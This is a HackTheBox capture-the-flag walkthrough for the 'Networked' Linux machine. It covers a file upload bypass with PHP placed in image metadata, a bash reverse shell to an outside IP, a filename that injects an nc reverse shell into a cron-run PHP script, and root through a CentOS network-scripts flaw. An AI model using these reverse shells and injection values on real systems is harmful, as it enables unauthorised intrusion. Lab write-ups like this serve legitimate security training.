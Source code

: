 ```yaml
---
layout: post
title: HackTheBox - Networked
date: 2020-12-28 23:20:00 +0100
categories: [Hackthebox walkthroughs, Linux, Easy]
tags: [htb-linux-easy, exiftool, file upload bypass, magic bytes, reverse-shell, cron, network-scripts, full disclosure, writeup, oscp-prep]
image: /assets/img/htb/machines/linux/easy/networked/Networked.png
---
```


## Foothold

### `nmap` scan

{% highlight bash %}
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Networked-full-port-scan.txt 10.10.10.146
Nmap scan report for 10.10.10.146
Host is up (0.14s latency).
Not shown: 65532 filtered ports
PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 22:75:d7:a7:4f:81:a7:af:52:66:e5:27:44:b1:01:5b (RSA)
|   256 2d:63:28:fc:a2:99:c7:d4:35:b9:45:9a:4b:38:f9:c8 (ECDSA)
|_  256 73:cd:a0:5b:84:10:7d:a7:1c:7c:61:1d:f5:54:cf:c4 (ED25519)
80/tcp  open   http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
443/tcp closed https
{% endhighlight %}

### Apache/2.4.6 (port 80)

![web](/assets/img/htb/machines/linux/easy/networked/web.png)

#### `dirb`

![dirb](/assets/img/htb/machines/linux/easy/networked/dirb.png)

#### /backup

![backup](/assets/img/htb/machines/linux/easy/networked/backup.png)

{% highlight bash %}
$ tar xvf backup.tar
index.php
lib.php
photos.php
upload.php
{% endhighlight %}

Seems we have the source code of the website.

Apparently we can upload pictures in `/upload.php`:

![uploaded successfully](/assets/img/htb/machines/linux/easy/networked/uploaded.png)

and then view it in `/photos.php`:

![view photo](/assets/img/htb/machines/linux/easy/networked/photos.png)

Moreover the file is stored following this pattern `/uploads/<IP>.<extension>`.

At this point and after a quick look at the source code, I'm thinking: "_it's a file upload challenge_" and we have to bypass the mimetype check.

Thanks to `exiftool`, I was able to execute php code:

![exiftool](/assets/img/htb/machines/linux/easy/networked/exiftool.png)

![wesh](/assets/img/htb/machines/linux/easy/networked/wesh.png)

### reverse shell

Steps to have a reverse shell:

1. Download a malicious file that will allow us to execute code remotely:

![exiftool 2](/assets/img/htb/machines/linux/easy/networked/exif.png)

2. Test **cmd** parameter:

![](/assets/img/htb/machines/linux/easy/networked/cmd.png)

3. Encode a bash reverse shell command with `burp`:

![burp](/assets/img/htb/machines/linux/easy/networked/burp.png)

- Bash reverse shell command: `bash -c 'bash -i >& /dev/tcp/10.10.14.7/1234 0>&1'`

- URL: `http://10.10.10.146/uploads/10_10_14_7.php.jpg?cmd=%62%61%73%68%20%2d%63%20%27%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%34%2e%37%2f%31%32%33%34%20%30%3e%26%31%27`

![reverse shell](/assets/img/htb/machines/linux/easy/networked/reverse-shell.png)

## User (apache)

{% highlight bash %}
$ id
uid=48(apache) gid=48(apache) groups=48(apache)
$ cd /home
$ ls
guly
$ cd guly
$ ls -la
ls -la
total 28
drwxr-xr-x. 2 guly guly 159 Jul  9  2019 .
drwxr-xr-x. 3 root root  18 Jul  2  2019 ..
lrwxrwxrwx. 1 root root   9 Jul  2  2019 .bash_history -> /dev/null
-rw-r--r--. 1 guly guly  18 Oct 30  2018 .bash_logout
-rw-r--r--. 1 guly guly 193 Oct 30  2018 .bash_profile
-rw-r--r--. 1 guly guly 231 Oct 30  2018 .bashrc
-rw-------  1 guly guly 639 Jul  9  2019 .viminfo
-r--r--r--. 1 root root 782 Oct 30  2018 check_attack.php
-rw-r--r--  1 root root  44 Oct 30  2018 crontab.guly
-r--------. 1 guly guly  33 Oct 30  2018 user.txt
{% endhighlight %}

Ok so we have to privesc in order to become `guly`.

We have read privileges on both files `crontab.guly` and ``check_attack.php``.


{% highlight bash %}
$ cat crontab.guly
cat crontab.guly
*/3 * * * * php /home/guly/check_attack.php
$ cat check_attack.php
{% endhighlight %}

So every 3 minutes `check_attack.php` is executed:

{% highlight php %}
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
        $msg='';
  if ($value == 'index.html') {
        continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}
?>
{% endhighlight %}

Interesting! We can abuse the following line: 

{% highlight bash %}
exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
{% endhighlight %}

`$value` has to be replaced by a malicious bash command beginning with `;` so that we can another command.

{% highlight bash %}
$ cd /var/www/html/uploads/
$ touch '; nc -c bash 10.10.14.7 4444'
{% endhighlight %}

![guly shell](/assets/img/htb/machines/linux/easy/networked/guly-bash.png)

## User (guly)

- Flag:

{% highlight bash %}
python -c "import pty; pty.spawn('/bin/sh');"  
sh-4.2$ cat user.txt
cat user.txt
526cfc2305f17faaacecf212c57d71c5
{% endhighlight %}

Let's run `sudo -l` with guly:

{% highlight bash %}
$ sudo -l
sudo -l
Matching Defaults entries for guly on networked:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
$ ls -la /usr/local/sbin/changename.sh
-rwxr-xr-x 1 root root 422 Jul  8  2019 /usr/local/sbin/changename.sh
{% endhighlight %}

Since we only we only can read or execute `changename.sh`, we cannot replace `changename.sh`'s content by a malicious one.

Let's examine wath's in `changename.sh`:

{% highlight bash %}
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done
  
/sbin/ifup guly0
{% endhighlight %}

- `/etc/sysconfig/network-scripts/ifcfg-guly`:

{% highlight bash %}
$ cat /etc/sysconfig/network-scripts/ifcfg-guly
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
NAME=ps /tmp/foo
PROXY_METHOD=asodih
BROWSER_ONLY=asdoih
BOOTPROTO=asdoih
{% endhighlight %}

The thing is, as mentionned on this website: [Redhat/CentOS root through network-scripts](https://seclists.org/fulldisclosure/2019/Apr/24), **incorrect whitespace filtering on the NAME attribute leads to code execution**.

## Root

{% highlight bash %}
$ sudo /usr/local/sbin/changename.sh
interface NAME:
random bash
interface PROXY_METHOD:
random
interface BROWSER_ONLY:
random
interface BOOTPROTO:
random
[root@networked network-scripts]# id            
id
uid=0(root) gid=0(root) groups=0(root)
[root@networked network-scripts]# cat /root/root.txt
cat /root/root.txt
0a8ecda83f1d81251099e8ac3d0dcb82
[root@networked network-scripts]# 
{% endhighlight %}

___

## Useful links

- [Hacker's Grimoire - File upload bypass](https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass)
- [Redhat/CentOS root through network-scripts](https://seclists.org/fulldisclosure/2019/Apr/24)